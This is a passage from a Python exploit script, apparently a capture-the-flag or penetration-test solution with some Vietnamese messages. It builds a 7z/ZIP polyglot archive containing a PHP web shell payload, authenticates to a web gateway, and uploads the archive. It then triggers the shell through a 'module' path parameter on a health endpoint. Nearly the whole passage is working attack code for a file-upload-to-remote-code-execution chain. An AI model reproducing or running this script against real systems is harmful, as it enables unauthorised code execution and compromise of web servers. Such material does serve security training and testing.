 ```
        raise RuntimeError("Lỗi khi tạo payload.7z") from e

def build_legit_zip() -> None:
    (IN_DIR / "readme.txt").write_text(
        "This is a benign file inside a normal ZIP.\n", encoding="utf-8"
    )
    shutil.make_archive(OUT_DIR / "payload", "zip", IN_DIR)

def make_polyglot_7z_zip() -> None:
    with POLYGLOT_PATH.open("wb") as out_f:
        with SEVENZ_PATH.open("rb") as f7z:
            shutil.copyfileobj(f7z, out_f)
        with ZIP_PATH.open("rb") as fzip:
            shutil.copyfileobj(fzip, out_f)

def check_zip_readable() -> None:
    try:
        with POLYGLOT_PATH.open("rb") as f:
            with zipfile.ZipFile(f, "r") as zf:
                print("ZIP namelist:", zf.namelist())
    except Exception as e:
        print("Error reading ZIP:", e)

async def send_zip(client: httpx.AsyncClient) -> httpx.Response:
    with POLYGLOT_PATH.open("rb") as f:
        files = {"file": (POLYGLOT_PATH.name, f, "application/zip")}
        resp = await client.post("/gateway/transport/", files=files, timeout=60)
    resp.raise_for_status()
    return resp

async def trigger_via_health(client: httpx.AsyncClient, user_uuid: str, shell_name: str) -> httpx.Response:
    params = {"module": f"/storage/{user_uuid}/{shell_name}"}
    resp = await client.get("/gateway/health/", params=params, timeout=30, follow_redirects=True)
    resp.raise_for_status()
    return resp

async def health_check(client: httpx.AsyncClient) -> Optional[str]:
    try:
        resp = await client.get("/gateway/health/", timeout=10)
        resp.raise_for_status()
        return resp.text
    except Exception as e:
        return f"Health check failed: {e}"

async def main() -> None:
    clean_dirs()
    write_payload_php()
    build_7z_from_payload()
    build_legit_zip()
    make_polyglot_7z_zip()
    check_zip_readable()

    async with httpx.AsyncClient(base_url=BASE_URL, timeout=20) as client:
        access = await authentication(client)
        claims = parse_access_claims(access)
        user_uuid = claims.get("user_id")
        if not user_uuid or not re.match(r"^[0-9a-fA-F\-]{36}$", user_uuid):
            raise RuntimeError(f"user_id trong access token không phải UUID hợp lệ: {user_uuid!r}")
        print(f"[i] user_id (UUID) từ access token: {user_uuid}")

        print(f"[i] Uploading: {POLYGLOT_PATH.name}")
        upload_resp = await send_zip(client)
```